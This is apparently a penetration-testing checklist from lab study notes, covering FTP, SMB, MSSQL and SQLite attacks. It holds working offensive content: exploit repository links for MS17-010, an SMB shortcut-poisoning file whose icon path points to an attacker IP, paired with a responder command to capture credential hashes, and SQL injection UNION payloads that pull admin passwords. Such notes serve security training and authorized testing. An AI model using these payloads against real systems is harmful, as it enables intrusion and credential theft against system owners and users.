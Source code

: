 * [ ] Anonymous access
* [ ] Binary transfer
* [ ] Check for exploits of software running in the machine
* [ ] Use `passive` to switch off passive mode (sometimes it works)
* [ ] Custom wordlist with rules `john --rules=best64 --wordlist=wordlist --stdout > mutated-list.txt`

### SMB

* [ ] Version: `sudo tcpdump -s0 -n -i tun0 src $rhost and port 139 -A -c 10 2>/dev/null`
* [ ] MS17-010 `https://github.com/worawit/MS17-010` `https://github.com/helviojunior/MS17-010`
* [ ] Symlink: `https://github.com/MarkBuffalo/exploits/blob/master/Samba/CVE-2010-0926.c`
* [ ] Enumerate shares with domain: `sudo crackmapexec smb 192.168.206.122 --shares -d hutch.offsec`
* [ ] List Shares
* [ ] Check for exploits of software running in the machine

#### SMB .lnk exploit

If you can write an SMB share that a user visits, you can poison a shortcut file as such:

```bash
# contents of @hax.url   
[InternetShortcut]
URL=anything
WorkingDirectory=anything
IconFile=\\192.168.49.194\%USERNAME%.icon
IconIndex=1

# set up responder
# make sure the responder is set to listen SMB (see responder.conf file)
sudo responder -I tun0 -v

# upload the file to the smb server
```

### MSSQL

* [ ] List databases: `SELECT name FROM master.dbo.sysdatabases`
* [ ] List tables: `SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES`
* [ ] list all tables: UNION SELECT table\_name, null, null from all\_tables --
* [ ] list columns from web\_admins: UNION SELECT column\_name, null, null from all\_tab\_columns where table\_name = 'WEB\_ADMINS'--
* [ ] get admin password: UNION SELECT password, null, null from web\_admins --

### SQLite

* [ ] Check https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf
* [ ] List tables: `UNION SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT LIKE 'sqlite_%'`
* [ ] List columns: `UNION SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name = '<yourtablehere>'`
